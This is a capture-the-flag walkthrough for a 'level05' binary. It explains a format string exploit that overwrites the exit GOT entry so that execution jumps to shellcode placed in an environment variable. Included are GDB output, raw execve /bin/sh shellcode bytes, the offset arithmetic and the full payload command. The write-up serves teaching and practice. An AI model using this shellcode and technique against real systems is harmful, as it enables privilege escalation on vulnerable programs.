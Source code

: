 `env -i su level05` is necessary to succeed

We want to overwrite the GOT table.
To do so we will do a String Format Exploit.


with GDB :
```C
(gdb) disas main
Dump of assembler code for function main:
   0x08048444 <+0>:	push   %ebp
    [...]
   0x08048507 <+195>:	call   0x8048340 <printf@plt>
   0x0804850c <+200>:	movl   $0x0,(%esp)
   0x08048513 <+207>:	call   0x8048370 <exit@plt>
End of assembler dump.
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
```

### Now we have exit Global Offset Table address `0x080497e0`.
We want to write to that address the address of our shellcode.

Since our offsets are too big, we can't use the same strategy as in rainfall.
We must first write the 2 first bytes, then the two last bytes.

To do so we will use a format string exploit.

```bash
python -c 'print("\xe0\x97\x04\x08\xe2\x97\x04\x08" + "%VALUE1x%10$hn%VALUE2x%11$hn")'
                  ^^^^^^^^^^^^^^^^
                       see 1.
                                  ^^^^^^^^^^^^^^^^
                                       see 2.
                                                       ^^^^^^^^^^^^^^^^^^^^^^^^^^^
                                                                 see 3.
```

1. `\xe0\x97\x04\x08` will be used to write with hn on the first two bytes of this address.
2. `\xe2\x97\x04\x08` is 2 bytes after the first address, which we will use to write on the two last bytes with hn.
3. After that we just need to know where our Shellcode is located in the stack in order to replace `VALUE1` and `VALUE2`.

We need to export our NOP sled + Shell Code :
`export SHELLCODE=$(python -c 'print("\x90" * 100 + "\x31\xc9\xf7\xe1\x04\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")')`

## From here, it should be redone whenever you export SHELLCODE again
When the shellcode is in the env, we need to find its address to know what to put in `VALUE1` and `VALUE2`.
```C
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05

Breakpoint 1, 0x08048449 in main ()
(gdb) x/20s *(char**)environ
0xffffddfa:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\311\367\341\004\vQh//shh/bin\211\343̀"
0xffffde7e:	 "SHELL=/bin/bash"
0xffffde8e:	 "USER=level05"
```

So our shellcode starts at `0xffffddfa`. If we write an address further away, meaning after the `=` char which is 10 bytes after, but before the end of the NOP sled, we will automaticaly reach the shell code.

So let's use `0xffffde20`

```
0xffffde20
  ^^^^
  val2
      ^^^^
      val1
```

However, in the printf, we wrote a bit of data already, 8 bytes exactly, the 2 starting address we want to write with printf.
`VALUE1` will be de20 = 56864. /!\ However, we need to substract the 8 bytes already written : 56864 - 8 --> 56856.
`VALUE2` : ffff = 65535. /!\ However, we need to substract the 8 bytes AND the `VALUE1` already written : 65535 - 56856 - 8 --> 8671.

The fully written payload is :

`(python -c 'print("\xe0\x97\x04\x08\xe2\x97\x04\x08" + "%VALUE1x%10$hn%VALUE2x%11$hn")'; cat) | ./level05`
